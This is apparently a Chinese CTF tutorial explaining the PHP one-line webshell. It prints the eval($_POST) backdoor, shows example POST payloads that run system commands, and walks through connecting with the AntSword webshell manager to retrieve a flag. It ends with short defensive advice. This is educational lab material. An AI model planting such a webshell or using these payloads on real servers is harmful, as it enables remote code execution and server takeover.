










# CTF教程：P44：一句话木马 🐚

在本节课中，我们将学习CTF Web安全中一个非常经典的概念——“一句话木马”。我们将解析其工作原理，并演示如何使用工具来利用它获取目标服务器的控制权。



## 概述

“一句话木马”是一种极其精简的Web后门脚本。它通常只有一行代码，却能接收外部传入的指令并在服务器上执行，从而让攻击者获得对服务器的控制。理解其原理是Web安全攻防的基础。

## 一句话木马解析

上一节我们介绍了基础的Web漏洞，本节中我们来看看这种特殊的后门形式。题目直接给出了一个PHP语句：

```php
<?php @eval($_POST[‘a‘]); ?>
```

这是一个典型的一句话木马。我们来拆解它的各个部分：
*   `<?php ... ?>`：这是PHP代码的开始和结束标签。
*   `@`：错误控制运算符。如果表达式执行出错，`@`会抑制错误信息的显示，使后门更加隐蔽。
*   `eval()`：这是核心函数。它的作用是将**传入的字符串当作PHP代码来执行**。
*   `$_POST[‘a‘]`：这是一个超全局变量，用于接收通过HTTP POST方法传递过来的、名为 `a` 的参数值。



**工作原理公式**可以概括为：
**`eval( 用户输入的字符串 ) = 执行用户输入的代码`**

例如，攻击者通过POST方法发送 `a=phpinfo();`，那么服务器端的代码就变成了 `eval(‘phpinfo();‘)`，从而执行 `phpinfo()` 函数。同理，如果发送 `a=system(‘whoami‘);`，就能执行系统命令。这就实现了对服务器的远程控制。





## 利用工具进行连接



既然题目提示存在一句话木马，下一步就是利用它。我们使用一款名为“中国蚁剑”的Webshell管理工具进行连接。以下是操作步骤：

1.  **复制目标URL**：将存在一句话木马的网页地址复制下来。
2.  **打开蚁剑并添加数据**：在蚁剑中右键，选择“添加数据”。
3.  **配置连接信息**：
    *   将URL粘贴到相应位置。
    *   连接密码（即一句话木马中接收参数的名称）填写为 `a`。
4.  **测试并连接**：点击“测试连接”，显示成功后，添加并双击该数据行。





连接成功后，你便可以通过蚁剑的图形化界面浏览服务器文件、执行命令等，如同操作本地文件一样。

## 获取Flag

在成功连接的服务器根目录下，我们找到了一个名为 `flag` 的文件。打开该文件，即可获得本题的Flag。提交这个Flag，题目即告完成。



## 总结



本节课我们一起学习了“一句话木马”的核心知识。我们首先解析了 `<?php @eval($_POST[‘a‘]); ?>` 这行代码的工作原理，理解了 `eval()` 函数的关键作用。随后，我们使用中国蚁剑这款工具，演示了如何配置并连接一句话木马，最终通过文件管理功能找到了目标Flag。



这道题的关键在于理解一句话木马的本质——一个能够执行外部输入代码的远程后门。对于防御方而言，应严格检查用户输入，避免将未经验证的参数传递给 `eval()`、`system()` 等危险函数。对于攻击方（在CTF合法范围内），掌握此类工具的使用是必备技能。